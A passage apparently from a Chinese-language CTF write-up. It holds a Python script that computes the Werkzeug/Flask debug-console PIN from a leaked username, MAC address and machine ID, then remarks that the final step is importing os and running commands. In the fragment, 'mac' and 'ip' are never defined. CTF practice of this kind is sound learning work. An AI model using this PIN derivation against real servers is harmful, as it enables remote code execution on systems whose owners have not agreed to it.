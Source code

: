 ```python
probably_public_bits = [
    'ctf',
    'flask.app',
    'Flask',
    '/usr/local/lib/python3.8/site-packages/flask/app.py'
]

mac = mac.replace(':', '')
mac = str(int(mac, base=16))

private_bits = [
    mac,
    '1cc402dd0e11d5ae18db04a6de87223d' + ip
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

> **注：此处发言不一定准确，如果有任何错误欢迎联系笔者纠正**
> 
> 这里的PIN码好像是只有第一个输入的才能使用，后面输入的不能执行代码只能报错
> 
> 不知道是否为上述机制的问题，如果是的话这个静态环境的问题让人有点小闹心，笔者从下午弄到了凌晨才成功执行了代码

最后就是导入`os`库，然后执行命令
